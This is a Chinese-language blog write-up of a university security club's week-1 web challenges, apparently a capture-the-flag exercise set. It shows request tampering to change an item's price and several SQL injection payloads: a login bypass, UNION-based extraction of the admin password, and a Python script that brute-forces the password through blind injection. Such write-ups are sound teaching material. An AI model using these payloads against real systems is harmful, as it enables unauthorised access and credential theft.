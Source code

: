 ```yaml
---
title: 2023 Fall Bamboofox社課題解 Week 1
top_img: transparent
date: 2023-10-02 23:31:07
tags:
    - WebSecurity
    - Bamboofox社課題解
categories:
    - Bamboofox社課
cover: Bamboofox社課/bamboofox-2023-fall-week1/110855742.jpg
description: 2023 Fall Bamboofox社課題解 Week 1 (WebSecurity)
---
```


[本周題目](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges)

## 1. [[Web] Cat shop](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/271)

這題要利用[BurpSuite](https://portswigger.net/burp)來監聽網頁。

進入BurpSuite，開proxy讓他能夠代理收發瀏覽器裡面的http request，隨便買一隻貓，會發現購買介面的連結為
```bash
http://bamboofox.cs.nctu.edu.tw:11306/item/5428
```
最後面的編號是照順序的，可以推知，flag的編號是5430，所以可以直接改連結進到購買flag的畫面

這時候會發現錢不夠用，從之前的post可以看出，貓咪的價格是直接寫在post裡的，最底下會有:
```bash
item_id=5430&cost=2147483648
```
這時候只要打開攔截，把post中的cost修改成1之類的小數字，就可以有足夠的錢購買了，成功獲得flag。

## 2. [[Web] Login Panel (login)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/267)

這題登入admin的SQL為:
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = '輸入的password'
```
它會自動找到admin並登入，不過只要密碼錯誤，AND的後項就不會成立，造成整個式子False。所以要想辦法讓它必然是True。

這裡使用SQL injection的技巧，把密碼設計成以下:
```sql
' OR ''='
```
放進去password的地方之後，SQL變為:
```sql
SELECT * FROM Users WHERE username = 'admin' AND password = '' OR ''=''
```
因為空字串必等於空字串，因此此式必定成立，就可以在任意密碼下登入admin帳號

登入之後，雖然不知道2FA碼是多少，但我們知道guest登入之後，所在的路徑是dashboard結尾。
```bash
https://login-panel.ching367436.me:8443/dashboard
```
所以嘗試把admin登入後網址的2fa結尾，直接改成dashboard結尾就可以得到flag了:

## 3. [[Web] Login Panel 2 (password)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/269)

這題的關鍵在於，登入進去之後，會有一句Welcome back username。因為這個username是從資料庫裡取出來的，所以我們可以試著讓他取出來的東西不是username，而是flag(此題的flag為admin的密碼，標題有寫)

這題跟上題的方法類似，不過要用到SQL語法裡的UNION來設計，設計出以下的密碼:
```sql
' UNION SELECT 1,(SELECT password FROM Users WHERE username='admin'),3,4 --
```
讓SQL變成
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = '' UNION SELECT 1,(SELECT password FROM Users WHERE username='admin'),3,4 --'
```
前面的SELECT必定失敗，但是透過UNION，他會同時在SELECT另一個東西，當SELECT的東西不存在時，他會自己創造一個。這裡透過創造一個第二欄(username欄)的值是資料庫中，admin的密碼。就可以讓他Welcome back的username是admin的密碼，也就是flag。

順帶一提，這個資料庫的table欄位為:id,username,password,code

## 4. [[Web] Login Panel (password)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/268)

這題跟第一題的網站是一樣的，不過這次不是要登入，而是要試出admin的password(如標題所述)

這題有擋第3題的方法，因此我們不能夠直接抓到admin的password，但我們這裡可以配合python暴搜admin的密碼是甚麼。

首先設計密碼為:
```sql
g' OR substr((SELECT password FROM Users WHERE username='admin'), {num}, 1)='{trychar}' --
```
登入的SQL變成底下這樣
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = 'g' OR substr((SELECT password FROM Users WHERE username='admin'), 1, 1)='B' --'
```
這個SQL代表，OR當admin的password的substring從第1位開始數，長度為1的字串(第1個字)，等於'B'時，OR後面的東西會是True，會成功登入。

透過這個方法，我們可以一一檢測，admin的password中的某一位是不是某個字，如果是的話，就會接收到成功登入的回傳html。

寫成python的爆搜方法如下(我寫得不好，這個code要跑頗久，建議建表之類的改良)，至於post應該帶甚麼內容，可以自己用BurpSuite看:
```py
import requests;

URL = 'https://login-panel.ching367436.me:8443/login?msg=invalid_credentials'
stop = 0
flag = ''
for num in range(1,100):
    if stop:
        break
    print(f"now if run position {num}")
    for i in range(1,128):
        trychar = i.to_bytes(1,'big').decode() # 關於此行的詳細，請參考https://hackmd.io/@9UfXRWPzS62YaxdR7uwZ0Q/B1K4TRr16
        post = requests.post(URL,
                            {
                                'username':'guest',
                                'password':f'g\' OR substr((SELECT password FROM Users WHERE username=\'admin\'), {num}, 1)=\'{trychar}\' --',
                            }
        )

        if '2FA' in post.text: # 登入頁面會有2FA字樣
            flag += trychar
            if trychar == '}':
                stop = 1
            break
    print(flag)
```

封面圖來源: [恥じらい虹夏ちゃん…///](https://www.pixiv.net/artworks/110855742)

---